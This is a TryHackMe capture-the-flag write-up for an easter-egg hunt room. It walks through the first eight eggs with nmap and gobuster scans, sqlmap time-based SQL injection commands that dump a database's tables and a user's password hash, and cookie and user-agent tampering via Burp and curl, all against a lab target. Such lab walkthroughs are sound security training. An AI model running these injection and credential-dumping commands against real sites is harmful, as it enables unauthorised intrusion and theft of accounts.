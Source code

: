 <img width="466" alt="banner" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/b4e79fb0-cd41-4824-9543-bec3bccac452">
<p></p>
-------------------------------------------------
<p></p>
Welcome to another THM writeup. This room was designed by <a href="https://tryhackme.com/p/DesKel">DesKel</a> for sharpening our CTF's skillz. We must find all 20 easter eggs. So let's get starter!

First run our nmap scan.
<code> nmap -A -T5 -p- targetIP</code>
<p></p>
Result's states that there's only two port's open:
<code>
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1b:c2:b6:2d:fb:32:cc:11:68:61:ab:31:5b:45:5c:f4 (DSA)
|   2048 8d:88:65:9d:31:ff:b4:62:f9:28:f2:7d:42:07:89:58 (RSA)
|_  256 40:2e:b0:ed:2a:5a:9d:83:6a:6e:59:31:db:09:4c:cb (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 360 No Scope!
</code>
<p></p>
Let's go to our browser. On port 80 we saw a little-bit wacky page - so here we must find all the egg's.

<h2>Egg 1</h2>
Hint: check the robots


<img width="960" alt="robots xtx" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/693f25fa-a6b5-40bc-b43f-8e17c6f5dd74">
<p></p>
After decoding hex vaules we've got first flag!

<h2>Egg 2</h2>
Hint: Decode the base64 multiple times. Don’t forget there are something being encoded.
According to hint, we must decode b64 value that we foud in robots.txt after decoding we receive: "DesKel_secret_base", that looks like directory. Let;s go to that page and we've got the second egg!
<p></p>
<h2>Egg 3</h2>
Hint: Directory buster with common.txt might help.
<p></p>
For this task I've used gobuster:

<code>gobuster dir -u http://TargetIP -w /user/share/wordlists/dirb/common.txt</code>
Gobuster found /login directory that conyains our third egg!

<h2>Egg 4</h2>
Hint: time-based sqli

It sound like task for SqlMap! First let's intercept POST request in Burp suite and save it as xml file, next we'll use SqlMap:
<code>sqlmap -r OurRequest.xml --current-db</code>

After finding out what our databes is called, we try to read the tables:
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 --tables</code>

we've got two tables:

<code>
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+
</code>
we must go deeper:
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T nothing_inside --columns</code>
result:
<code>
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+
</code>
Finally we've got the fourth egg!
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"</code>


<h2>Egg 5</h2>
Hint: Another sqli

<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T user --columns</code>
<code>
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+
</code>

<code>sqlmap -r OurRequest.xml-D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"</code>

<code>select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me</code>

After quick goole search we've got hash value and DesKel password! So let's login and receive egg 5!


<h2>Egg 6</h2>
Hint: Look out for the response header.

We could use Burp suite ora curl:
<code> curl -s targetIP -D header.txt<.code>
Easy!

<h2>Egg 7</h2>
Hint: Cookie is delicious
<p></p>

![cookie](https://github.com/Th3l3mic/WriteUps/assets/167564930/f22b4cc4-d5bd-4cb6-a80a-a027b3e13a55)

As we intercept our request in Burp we can see tha there's a cookie named: "Invited" set to value 0, let's modify this and set it to 1. No it's look like we've got 7th egg!

<h2>Egg 8</h2>
Hint: Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1

Let's modify user-agent in pour request using burp, or curl: 
<code>curl -s --user-agent "Mozilla/5.0 (iPhone; CPU iPhone OS 13_1_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.0.1 Mobile/15E148 Safari/604.1" http://targetIP/ | grep "Easter 8"</code>

